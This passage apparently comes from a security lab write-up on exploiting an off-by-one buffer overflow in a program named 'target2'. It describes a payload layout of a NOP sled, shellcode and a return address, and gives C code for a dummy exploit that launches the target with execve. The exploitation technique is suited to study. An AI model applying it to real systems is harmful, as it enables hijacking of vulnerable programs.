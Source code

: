 Now we know the following:

- Due to the programmer's mistake, we can modify the last byte of the saved base pointer value `ebp_bar` stored at _start + 240_.
- After returning from the `foo` function, the execution will continue at the address stored at `ebp_bar` + 4.

Therefore to exploit this vulnerability we will construct our payload in the following way:

| Byte indexes | 0 - 190    | 191-235   | 236-239                   | 240              |
| ------------ | ---------- | --------- | ------------------------- | ---------------- |
| **Contents** | "\\x90"/NOP | shellcode | address of the shell code | overwriting byte |


The value of the overwriting byte will have to be chosen such that the new `ebp_bar` is equal to the address pointing to the buffer's 232th index. (236 -4). As a consequence, the program will continue the execution at the address of the shell code when returning from the `foo` function.

### Exploiting the vulnerability

Now that we know the structure of our shellcode, we still need to find the values for the shellcode address as well as the value of the overwriting byte. To do so, we first construct a dummy payload of 240 bytes, where the last four bytes are equal to "AAAA", this will help us localize where the saved base pointer with value `ebp_bar` is stored when running the code in gdb. Therefore we construct our dummy exploit the following way:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "target2"
#define NOP 0x90

int main(void)
{
  char *args[3];
  char *env[1];
  char jump_addr[] = "AAAA";
  args[1] = malloc(240);

  int i = 0;
  while(i < 191){
    args[1][i] = NOP;
    i = i+1;
  }

  strcat(args[1],shellcode);
  strcat(args[1],jump_addr);

  args[0] = TARGET;
  args[2] = NULL;
  env[0] = NULL;
  if (0 > execve(TARGET, args, env))
    fprintf(stderr, "execve failed.\n");

  return 0;
}
```
